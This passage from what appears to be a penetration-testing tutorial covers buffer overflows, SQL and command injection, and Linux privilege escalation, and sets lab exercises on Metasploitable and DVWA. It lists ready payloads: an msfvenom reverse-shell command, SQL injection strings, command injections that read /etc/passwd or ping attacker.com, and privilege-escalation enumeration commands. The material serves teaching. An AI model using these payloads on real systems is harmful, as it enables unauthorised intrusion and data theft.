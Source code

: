 #### Manual Exploitation Techniques

**Buffer Overflow Basics**

Buffer overflows are a classic vulnerability where input exceeds allocated memory.

```bash
# Generate cyclic pattern for offset finding
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000

# Find offset after crash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41414141

# Generate shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f python
```

**SQL Injection**

| Injection Type | Example Payload | Purpose |
|---|---|---|
| Union-based | `' UNION SELECT 1,2,database()--` | Extract data |
| Boolean-based | `' AND 1=1--` | True/false responses |
| Time-based | `'; WAITFOR DELAY '00:00:05'--` | Blind injection |
| Error-based | `' AND (SELECT COUNT(*) FROM information_schema.tables)--` | Error messages |

**Command Injection**

| Context | Payload Example | Notes |
|---|---|---|
| Linux | `; cat /etc/passwd` | Command separator |
| Windows | `& type C:\Windows\System32\drivers\etc\hosts` | Command separator |
| Blind | `; ping -c 1 attacker.com` | Out-of-band verification |

**Exercises: Exploitation**

1. Set up Metasploitable 2 and exploit it using Metasploit
2. Practice SQL injection on DVWA (Damn Vulnerable Web Application)
3. Create a simple buffer overflow exploit using a vulnerable program
4. Test command injection vulnerabilities in a lab environment

---

### Post-Exploitation

After gaining initial access, attackers focus on maintaining access and expanding their foothold.

#### Privilege Escalation

**Linux Privilege Escalation**

| Technique | Commands | Description |
|---|---|---|
| SUID/SGID binaries | `find / -perm -4000 2>/dev/null` | Find SUID programs |
| Writable files | `find / -writable -type f 2>/dev/null` | Find writable files |
| Cron jobs | `cat /etc/crontab`, `ls -la /etc/cron*` | Scheduled tasks |
| Kernel exploits | `uname -a`, `searchsploit kernel` | OS vulnerabilities |
| Sudo misconfigurations | `sudo -l` | Sudo permissions |
